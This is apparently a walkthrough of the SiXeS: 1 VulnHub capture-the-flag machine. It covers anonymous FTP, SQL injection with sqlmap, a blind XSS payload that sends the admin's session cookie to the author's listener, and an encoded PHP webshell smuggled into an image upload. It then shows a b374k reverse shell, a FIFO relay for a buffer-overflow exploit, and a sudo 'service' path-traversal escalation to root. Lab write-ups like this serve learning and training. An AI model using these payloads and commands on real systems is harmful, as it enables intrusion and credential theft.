


## SiXeS: 1

Advanced-Hard Boot2Root machine intended to be used in a Workshop/CTF beside Shellmates Club.

The machine has 6 flags that will guide the challenger through it.

It covers web security, binary exploitation, and various misconfigurations.

<a href="https://www.vulnhub.com/entry/sixes-1,380/" target=_>Link VM</a>

## Recon, Testing, Spawn Shell

after scan entire port, found port ftp(21) is open with Anonymous user enabled.  
there's one file in there, download it to read the content :
```bash
muwa00@ritalin:~$ ftp 10.0.1.10    
Connected to 10.0.1.10.
220 (vsFTPd 3.0.3)
Name (10.0.1.10:muwa00): Anonymous 
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--r--r--    1 0        0             233 Oct 03 20:44 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (233 bytes).
226 Transfer complete.
233 bytes received in 0.02 secs (11.6519 kB/s)
ftp> 221 Goodbye.

muwa00@ritalin:~$ cat note.txt 
DONE:
  - Develop the web application frontend and backend
  - Add a firewall to block malicious tools

TODO:
  - Hire a Pentester to secure the web application
  - Buy food to my cat :3

shellmates{5c6b5e84ab3fa94257bdce66b9c1c200}
```

hmmm, it seems there's a firewall installed in the server. now it's time to recon the web :)  
when i start to use dirb, the program suddenly got freeze after a few attempt. that
makes me think maybe it because the firewall that mentioned earlier ...

the login page in `http://10.0.1.10/admin.php` doesn't seem vurnerable to sqli or typical bug  
for bypass login. after testing the index page there's sqli bug in param `id`. i use `sqlmap`  
with delay for 1 second to bypass the firewall blocking :
```bash
muwa00@ritalin:~$ sqlmap --url "http://10.0.1.10/?page=post.php&id=*" --level=5 --risk=3 --delay=1 --dbs
...
++++++++++| snippet |++++++++++
...
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[01:43:39] [INFO] fetching database names
[01:43:41] [INFO] retrieved: 'information_schema'
[01:43:42] [INFO] retrieved: 'mysql'
[01:43:43] [INFO] retrieved: 'performance_schema'
[01:43:44] [INFO] retrieved: 'sixes'
[01:43:45] [INFO] retrieved: 'sys'
available databases [5]:                                                                                                                            
[*] information_schema
[*] mysql
[*] performance_schema
[*] sixes
[*] sys
```


dump database `sixes` :
```bash
...
++++++++++| snippet flag |++++++++++
...
Database: sixes
Table: s3cr3t_t4ble_31337
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| shellmates{69f78fa6e9f49d180d145553ceecf87d} |
+----------------------------------------------+
...
++++++++++| snippet |++++++++++
...
Database: sixes
Table: users
[1 entry]
+-------+-----------+----------------------------------+
| role  | username  | password                         |
+-------+-----------+----------------------------------+
| admin | webmaster | c78180d394684c07d6d87b291d8fe533 |
+-------+-----------+----------------------------------+
```

i try to using different wordlist to crack the hash password in table `users` such as dictionary wordlist and  
custom wordlist but still don't work. the hash seems not found in google. sqli technique such as `LOAD_FILE`  
and `INTO OUTFILE` doesn't work.  

there's parameter `page` that seem to using `include/require` function in the website `http://10.0.1.10/?page=home.php`  
so i try lfi method and it isn't work too :(  

the last part to testing is feedback feature on `http://10.0.1.10/?page=contact.php`. 


however after try input different payload, the web always do success alert and there's no  
indicate command injection, sqli or even xss.

or is that so ? maybe the payload is *running in the background* ?  

setup listener and send typical blind payload :
```bash
...
++++++++++| terminal 1 |++++++++++
...
muwa00@ritalin:~$ curl -X POST "http://10.0.1.10/?page=contact.php" -d "feedback=<script>document.location('http://10.0.1.1:1337/')</script>&url=<script>document.location('http://10.0.1.1:1337/')</script>&description=<script>document.location('http://10.0.1.1:1337/')</script>"
...
++++++++++| terminal 2 |++++++++++
...
muwa00@ritalin:~$ nc -lvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.0.1.10.
Ncat: Connection from 10.0.1.10:41664.
GET / HTTP/1.1
Host: 10.0.1.1:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/77.0.3865.90 HeadlessChrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=s2rapuh7oh47v6umhudqd3pkmm
```

**blind xss** :3  
use the cookie session for bypass the login and get another flag.  


magic byte is checked in here and if the file we upload doesn't equal to png/jpg it will be blocked.  
the uploaded file will be send to `http://10.0.1.1:1337/img/`. send reverse shell payload inside  
image file, the file is uploaded but shell is not spawned :(  
it looks like the server block the shell function such as `system/shell_exec/exec` or etc.  

to solve this problem i'll try to read the config file and gather db credentials.  
append this payload into image and upload it  
`<?php var_dump(file_put_contents('shell.php', base64_decode('PD9waHAgJF89ImB7e3siXiI/PD4vIjt2YXJfZHVtcCgkeyRffVskX10oJHskX31bXy5fLl8uX10pKTs=')));`
```php
...
++++++++++| read post.php |++++++++++
...
  require_once('config.php');
  $conn = mysqli_connect($DBHOST, $DBUSER, $DBPSWD, $DBNAME);
...
++++++++++| read config.php |++++++++++
...
	$DBNAME = "sixes";
	$DBHOST = "localhost";
	$DBUSER = "root";
	$DBPSWD = "sGqIk41xt39B5zg77DgJaNKCTuGCav5w";

```

testing login with the credential and failed. it's not valid credential and i can assume this  
login credential is just for mysql.  

first identify our username with uid and match it with /etc/passwd  
```php
...
++++++++++| stat /var/www/html/img/shell.php |++++++++++
...
  int(1)
  ["uid"]=>
  int(33)
  ["gid"]=>
  int(33)
...
++++++++++| snippet /etc/passwd |++++++++++
...
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin		// match!
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
...
```

recon directory with `scandir` and found interesting file on `/home/webmaster`  
```php
++++++++++| scandir /home/webmaster |++++++++++
...
  [13]=>
  string(12) "low_user.txt"     // have permission to read
  [14]=>
  string(9) "notes.txt"			// no permission to read
  [15]=>
  string(8) "user.txt"          // no permission to read
}
...
++++++++++| read low_user.txt |++++++++++
...
string(45) "shellmates{e02c5869b5dc6e57c0bc24dc8946fe94}
"
```

let's get a proper shell, to do this i need to upload `interactive webshell` and execute reverse shell and  
backconnect to my machine. for webshell i use `b374k`. insert it as base64 format to our last payload  
```bash
muwa00@ritalin:~$ head -n 1 ~/Pictures/2755892_1.jpg > img.php

muwa00@ritalin:~$ cat b374k.bin >> img.php

muwa00@ritalin:~$ nc -lvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.0.1.10.
Ncat: Connection from 10.0.1.10:40540.
b374k shell : connected
/bin/sh: 0: can't access tty; job control turned off
/tmp>whoami
www-data
```

## Exploitation & Privilege Escalation

after doing some recon and enumeration, i found interesting suid binary
```bash
/>find / -user webmaster -print 2>/dev/null
/home/webmaster
/home/webmaster/.gnupg
/home/webmaster/.lesshst
/home/webmaster/user.txt
/home/webmaster/.selected_editor
/home/webmaster/notes.txt
/home/webmaster/.profile
/home/webmaster/.php_history
/home/webmaster/.cache
/home/webmaster/.viminfo
/home/webmaster/.mysql_history
/home/webmaster/.bash_history
/home/webmaster/.bash_logout
/home/webmaster/.bashrc
/sbin/notemaker						# <--- suspicious file ?
/var/www/html
/var/www/html/contact.php
/var/www/html/post.php
/var/www/html/home.php
/var/www/html/css
/var/www/html/index.php
/var/www/html/js
/var/www/html/admin.php
/var/www/html/about.php
/var/www/html/img
/var/www/html/config.php
/var/www/html/vendor
```

download the file and do reverse engineer.  

no canary so maybe there's BoF bug  
```c
muwa00@ritalin:~$ checksec notemaker
[*] '/home/muwa00/n0w/Vulnhub/SiXes/notemaker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

 `gets` is a dangerous function so the vulnerable is obvious here. the program seems try to append note/string  
 to `/home/webmaster/notes.txt`
```cs
│           0x004012d9      e8d2fdffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004012de      488d353d0d00.  lea rsi, [0x00402022]       ; "a" ; const char *mode
│           0x004012e5      488d3d1c0d00.  lea rdi, str.home_webmaster_notes.txt ; 0x402008 ; "/home/webmaster/notes.txt" ; const char *filename
│           0x004012ec      e83ffeffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│           0x004012f1      488945f8       mov qword [stream], rax
```

because there's no pwntools package or socat program in the server, i will do remote exploit and  
for socat i will use `Named Pipe` or `FIFOs` as backconnect.  

it's time to make an exploit program ...   

because there's no fancy ret2win function, i will do ret2libc then redirect to `one gadget` and  
spawn the shell. because the machine used libc-2.27 i'll just download `libc.so.6` file to  
get the correct offset.

finger cross ...
```cs
...
++++++++++| terminal 1 |++++++++++
...
muwa00@ritalin:~$ nc -lvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.0.1.10.
Ncat: Connection from 10.0.1.10:40706.
b374k shell : connected
/bin/sh: 0: cant access tty; job control turned off
/tmp>mkfifo backpipe
/tmp>nc -l 1337 0<backpipe | /sbin/notemaker 1>backpipe
...
++++++++++| terminal 2 |++++++++++
...
muwa00@ritalin:~$ python poc_notemaker.py
[+] Opening connection to 10.0.1.10 on port 1337: Done
[*] libc base @ 0x7ff024a44000
[*] Switching to interactive mode
$ whoami
webmaster

```

do recon/enumerate again  

even the root say so :3  
```bash
$ cd /home/webmaster
$ cat notes.txt
2019-10-02 21:08:05 ~-> root said: Hey webmaster, in case the web server goes down, I gave you some privileges so you can start/stop/restart it whenever you want. Cheers.
2019-10-02 21:08:33 ~-> root said: Hey again, how many times should I repeat that YOU SHOULD NEVER USE GETS? Seriously, even the compiler reminds you... Go fix it now or I'll delete your minecraft account.
```
  
found another flag
```bash
$ cat user.txt
shellmates{96a683b3d9aa80d53066eea68995f317}
```

hmmm, in the last note the root user mention smth about "privileges" ... maybe sudo !?  
```bash
$ sudo -l
Matching Defaults entries for webmaster on sixes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webmaster may run the following commands on sixes:
    (root) NOPASSWD: /usr/sbin/service
```

after read & learn from google, it seems that program except file in `/etc/init.d/` can be  
executed with `service` and *voila*! we got a root shell from misconfiguration service
```bash
$ sudo service ../../../bin/sh
$ whoami
root
$ cd /root
$ ls
firewall
root.txt
xss_simulator
$ cat root.txt
shellmates{fa7b27528914d9ca504c9c281648c418}

```

total flags is 6  
```cs
shellmates{5c6b5e84ab3fa94257bdce66b9c1c200}	# ftp misconfiguration
shellmates{69f78fa6e9f49d180d145553ceecf87d}	# sqli
shellmates{918941c3c797f3fe3a6bc6003fc807cb}	# login bypass with blind xss
shellmates{e02c5869b5dc6e57c0bc24dc8946fe94}	# upload shell
shellmates{96a683b3d9aa80d53066eea68995f317}	# BoF exploitation
shellmates{fa7b27528914d9ca504c9c281648c418}	# service misconfiguration
```
